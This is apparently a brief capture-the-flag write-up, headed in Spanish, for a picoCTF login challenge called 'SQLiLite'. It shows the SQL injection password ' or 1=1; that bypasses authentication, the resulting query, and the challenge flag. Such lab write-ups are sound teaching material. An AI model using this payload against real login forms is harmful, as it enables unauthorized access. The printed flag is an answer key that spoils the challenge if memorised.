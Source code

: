 # SQLiLite

## Descripciom
Can you login to this website?

## Solucion
- [instancia 1]
[link](http://saturn.picoctf.net:57861/)
```console
username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
```
Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}